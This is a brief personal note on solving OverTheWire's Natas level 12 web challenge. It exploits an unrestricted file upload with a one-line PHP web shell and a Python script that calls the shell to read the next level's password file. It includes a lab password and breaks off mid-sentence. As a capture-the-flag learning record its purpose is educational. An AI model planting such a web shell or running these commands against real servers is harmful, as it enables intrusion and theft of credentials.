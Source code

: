 
2024-07-14 18:54

Source: #youtube #overthewire #natas #web 

Tags:

Natas12

we have a unrestricted file upload functionality 

create a `php` file with the following contents, we will modify the `c` parameter later 
```
<?php
	system($_GET['c']);
?>
```

```
import requests
username = 'natas12'
password = 'yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB'

url = 'http://natas12.natas.labs.overthewire.org/'
sessions = requests.Session()

#response = sessions.post(url,files = {"uploadedfile" : open('revshell.php','rb')},data = {"filename": "revshell.php"},auth = (username,password))

response = sessions.get(url + 'upload/kx42yjw6zv.php?c=cat /etc/natas_webpass/natas13',auth = (username,password))

print(response.text)
```
1. commented code tells the 





### References
https://www.youtube.com/watch?v=fqwxYowJA0c